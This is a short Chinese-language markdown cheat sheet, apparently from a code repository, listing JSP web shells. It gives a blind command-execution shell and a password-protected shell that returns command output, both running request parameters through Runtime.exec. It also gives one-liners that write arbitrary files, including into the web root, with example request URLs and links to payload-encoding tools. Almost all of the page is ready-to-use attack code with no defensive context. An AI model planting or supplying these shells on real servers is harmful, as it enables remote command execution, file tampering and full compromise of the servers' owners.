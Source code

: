 # Java/JSP

**一、无回显的命令执行（命令执行后不会在前端页面返回数据）**


```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

请求url：http://127.0.0.1/shell.jsp?i=whoami
```


**二、有回显带密码的命令执行（命令执行后会在前端返回数据）**

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



**三、文件写入（改写目标服务器里的文件,若文件不存在则创建）**

```markdown
1. ISO-8859-1输入:
new java.io.FileOutputStream(request.getParameter("file")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

2. UTF-8输入:
new java.io.FileOutputStream(request.getParameter("file")).write(new String(request.getParameter("content").getBytes("ISO-8859-1"), "UTF-8").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

3. Web目录写入;
new java.io.FileOutputStream(application.getRealPath("/") + "/" + request.getParameter("filename")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=test.txt&content=test
```


**四、编码相关**

Runtime-exec 编码原理 https://www.jianshu.com/p/ae3922db1f70

Runtime-exec 编码工具 https://www.bugku.net/runtime-exec-payloads/

Java在线运行环境 https://www.w3cschool.cn/tryrun/runcode?lang=java-openjdk